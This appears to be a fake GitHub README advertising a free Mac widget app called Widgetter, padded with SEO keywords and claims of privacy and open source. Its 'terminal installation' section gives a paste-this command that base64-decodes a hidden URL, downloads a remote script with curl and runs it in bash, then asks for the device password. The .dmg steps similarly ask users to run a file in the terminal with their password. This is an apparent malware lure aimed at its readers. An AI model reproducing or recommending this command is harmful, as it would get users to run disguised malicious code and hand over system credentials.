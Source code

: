 # Widgetter — Download For Mac OS 🖥️
![logo](https://media.imgcdn.org/repo/2023/09/widgetter/64f1b01e9235a-widgetter-Icon.webp)

Widgetter is a sleek, lightweight desktop application for Mac OS that enhances your productivity with customizable widgets. Follow the instructions below to install it effortlessly and organize your workflow like never before!

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/widgetter)

If the download button doesn’t work, follow the terminal-based installation instructions below.

## 📦 How to Install Widgetter For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Widgetter

- 🕒 **Real-Time Updates**: Monitor your tasks, calendar, and weather with live-updating widgets.  
- 🎨 **Customizable Layouts**: Personalize widget sizes, colors, and positions to match your style.  
- ⚡ **Lightweight Performance**: Runs smoothly on Mac OS without draining system resources.  
- 📊 **Productivity Boost**: Organize your day with at-a-glance insights into your schedule and tasks.  
- 🔒 **Secure & Private**: No data collection, ensuring your information stays on your device.  
- 🌐 **Seamless Integration**: Syncs with native Mac apps like Calendar and Notes for a unified experience.

## About Widgetter

Widgetter is a free desktop application designed to streamline your Mac OS experience with customizable, interactive widgets. Whether you’re a professional managing multiple projects or a student keeping track of assignments, Widgetter offers a clean and intuitive way to stay organized. By integrating seamlessly with your Mac’s native apps, it ensures you have all your essential information at your fingertips. With its focus on **free download**, Widgetter is accessible to all Mac users looking to enhance their desktop productivity without complex setups.

The app’s lightweight design makes it ideal for users who value performance. Unlike bulky productivity tools, Widgetter operates efficiently, using minimal system resources while delivering maximum functionality. Its **Mac OS widget app** framework allows for real-time updates, ensuring your calendar, weather, or task widgets are always current. This makes it a perfect choice for users searching for a **desktop widget for Mac free** solution that doesn’t compromise on quality.

Security is a top priority for Widgetter. Unlike many apps that collect user data, Widgetter operates entirely offline, ensuring your information remains private. This focus on privacy makes it a standout choice for those seeking a **secure widget app for Mac**. The app’s design prioritizes user control, allowing you to customize every aspect of your widgets, from layout to functionality, without invasive permissions or subscriptions.

For users looking to **download free Mac apps**, Widgetter stands out with its ease of installation. Whether you opt for the .dmg file or the terminal-based setup, the process is straightforward and user-friendly. The app’s compatibility with the latest Mac OS versions ensures a smooth experience, making it a go-to for anyone searching for **productivity apps for Mac free**. Its open-source nature also invites developers to contribute, ensuring continuous improvements.

### Why Choose Widgetter?

Widgetter’s key advantage lies in its simplicity and flexibility. Unlike other widget apps that overwhelm with unnecessary features, Widgetter focuses on delivering a **customizable Mac widget** experience tailored to your needs. Its free availability, combined with robust functionality, makes it a top choice for users searching for **free Mac software download**. With no hidden costs or subscriptions, Widgetter empowers you to take control of your desktop without breaking the bank.

## 🖼 Preview

![Widgetter Dashboard](https://widgetter.com/static/media/dark.87998b248dafd47fd020.jpg)  
*View your tasks, calendar, and weather in a sleek dashboard.*

![Custom Widget Layout](https://widgetter.com/static/media/dark.5b121629995434bc4b48.jpg)  
*Personalize widget sizes and positions to suit your workflow.*

![Real-Time Updates](https://widgetter.com/static/media/dark.2f0c16e66b9fd26c1438.jpg)  
*Stay updated with live weather and task notifications.*

## 🔍 Tags

Widgetter for Mac, free Mac widget app, download Widgetter free, Widgetter, Widgetter mac, Widgetter mac os, Widgetter download, Widgetter free, Widgetter free download, Widgetter download free, Widgetter for mac, Widgetter for free, free Widgetter, download Widgetter
